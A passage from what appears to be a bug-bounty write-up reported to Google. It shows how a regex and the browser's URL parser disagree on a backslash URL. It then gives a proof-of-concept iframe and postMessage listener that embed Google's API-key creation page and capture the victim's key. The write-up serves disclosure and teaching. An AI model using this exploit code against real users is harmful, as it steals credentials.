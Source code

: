 Again, I was always "afraid" to dig this deep, and would never have thought about looking into the source code of a browser, but after browsing around a bit, you realise that this code is also just code, and you can understand how it works. This is super and interesting and can be really helpful in many situations. I could have just looked into the source code to find this bug, skipping the whole fuzzer part.

Using this bug, we can demo the exploit in the JS Console:
```js
// Regex parsing
"https://user:pass@xdavidhu.me\\test.corp.google.com:8080/path/to/something?param=value#hash".match(magicRegex)

Array(8) [ "https://user:pass@xdavidhu.me\\test.corp.google.com:8080/path/to/something?param=value#hash",
           "https", "user:pass", "xdavidhu.me\\test.corp.google.com", "8080", "/path/to/something", "param=value", "hash" ]

// Browser parsing
new URL("https://user:pass@xdavidhu.me\\test.corp.google.com:8080/path/to/something?param=value#hash")

URL { href: "https://user:pass@xdavidhu.me/test.corp.google.com:8080/path/to/something?param=value#hash",
      origin: "https://xdavidhu.me", protocol: "https:", username: "user", password: "pass", host: "xdavidhu.me",
      hostname: "xdavidhu.me", port: "", pathname: "/test.corp.google.com:8080/path/to/something", search: "?param=value" }
```

We can see that this works as we wanted it to, so we can make a POC, which will embed `henhouse`, and grab the victim's API key.

```html
<iframe id="test" src='https://console.developers.google.com/henhouse/?pb=["hh-0","gmail",null,[],"https://xdavidhu.me\\test.corp.google.com",null,[],null,"Create API key",0,null,[],false,false,null,null,null,null,false,null,false,false,null,null,null,null,null,"Quickstart",true,"Quickstart",null,null,false]'></iframe>

<script>
window.addEventListener('message', function (d) {
  console.log(d.data);
  if(d.data[1] == "apikey-credential"){
    var h1 = document.createElement('h1');
    h1.innerHTML = "Your API key: " + d.data[2];
    document.body.appendChild(h1);
  }
});
</script>
```

Here is the POC video I sent to Google which shows this in action:

<iframe width="100%" height="315px" src="https://www.youtube.com/embed/F4DhJDV5sDs" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
